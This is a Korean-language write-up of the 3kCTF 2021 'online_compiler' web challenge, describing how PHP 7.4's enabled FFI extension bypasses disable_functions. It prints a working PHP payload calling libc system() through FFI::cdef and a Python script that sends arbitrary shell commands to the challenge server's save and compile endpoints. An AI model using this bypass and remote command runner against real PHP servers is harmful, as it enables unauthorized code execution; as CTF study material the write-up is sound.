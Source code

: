 ```yaml
---
layout: post
date: 2021-05-17 00:00:13
title: "3kCTF 2021 Write Up"
categories: CTF
tags: [RCE, PHP]
author:
  - Jeongwon Jo

---
```

## (Web) online_compiler [425 pts]

> online_compiler 문제는 FFI를 이용해서 외부 함수를 호출해 RCE를 트리거 한 후에 플래그를 획득하는 문제이다. 

일단 문제에서 `back-end` 코드와 `php.ini` 파일이 주어지는데 백엔드 코드에서는 그냥 php 코드를 실행할 때 `php.ini` 파일을 기반으로 실행시키는 것만 확인하면 된다. `php.ini` 파일을 확인해보면 `diable_functions`에 의해 많은 함수들이 비활성화 되어 있다. 당연히 `system()`, `exec()`와 같이 쉘 명령어를 실행 할 수 있는 함수들도 비 활성화 되어 있다..

![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/1.png?raw=true)

하지만 `phpinfo()`는 비 활성화가 되어 있지 않아 위와 같이 `PHP Version`을 확인할 수 있었고, 7.4.X 버전을 사용 중 이라는 것을 알 수 있었다. 그래서 해당 버전에서 발생하는 취약점들을 찾아보았다.

![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-16%20%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE%207.00.45.png?raw=true)
![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.43.32.png?raw=true)

그러다가 구글링을 하다가 위 내용을 발견했다. 키워드는 `php 7.4 disable_functions bypass`로 검색했는데 위 내용은 `bypass` 항목들 중 하나였다. `phpinfo()`에서 확인을 해보니 활성화가 되어 있는 것을 볼 수 있다.

![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.31.49.png?raw=true)

그래서 5월 16일 오후 7시쯤 진규형님께 보내서 `일단 이게 젤 가능해보이는데`라고 아무 생각 없이 시전을 했다 ㅋㅋ. 씨발 그래도 그 후에 삽질을 2시간 더 했다.

![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.30.48.png?raw=true)

일단 처음 `FFI`를 알아보고 `Foreign function interface`에 약자로 외부 함수 인터페이스인데 이것을 어떻게 활용하는 지 몰랐다. 그러다 신기한 글을 발견 했는데 `FFI` 클래스 내에 `cdef()` 메서드를 이용하는 것을 볼 수 있었다. `cdef()` 인자 값으로는 C 언어 함수 원형을 넣어주면서 객체 하나를 만들고, 해당 객체에서 생성한 함수 원형을 참조해서 외부 함수를 실행시키는 것을 볼 수 있었다.

![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.39.19.png?raw=true)

C Language system() 함수의 원형을 알아보니 위와 같았다. 그냥 `const char command`할 때는 안 됐는더 포인터 변수로 안 해줘서 그런 거 같다.

```php
<?php 
  $ffi=FFI::cdef("int system(const char *command);");
  $ffi->system('ls');
?>
```
그래서 결과적으로 위와 같이 페이로드가 작성됐다. 처음에는 위 사진처럼 라이브러시 파일도 같이 인자로 넘겨주었지만 넘겨주면 잘 되지 않았다. 아마 같은 경로에 파일이 없어서 그런 거 같은데 없이 해줘도 아무 문제 없었다.

![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.50.22.png?raw=true)

파이썬으로 익스 코드를 작성하고, 확인을 해보니 상위 티렉터리에 `El_FlAAG___FilEE` 파일이 존재했다. 그래서 해당 파일을 읽으니 플래그가 나왔다. 결국 아까 오후 7시쯤에 진규 형님께 시전한 게 맞았다. zz

```python
import requests
from pwn import *

url = 'http://onlinecompiler.2021.3k.ctf.to:5000/'
path = ['save', 'compile']

while(1):
    command = raw_input("pocas@py : ")
    c_type, code = 'php', '<?php $ffi=FFI::cdef("int system(const char *command);");$ffi->system(\'{}\');?>'.format(command)
    body1 = {'c_type':c_type, 'code':code}

    # save
    filename = requests.post(url + path[0], data=body1).text
    log.info("Exploitation")
    log.info("filename : " + filename)

    # compile
    body2 = {'c_type':c_type, 'filename':filename}
    result = requests.post(url + path[1], data=body2).text.replace('\n', ' ')
    log.info("result : " + result)
```

> FLAG : 3k{JuSt_A_WaRmUp_O.o}

---
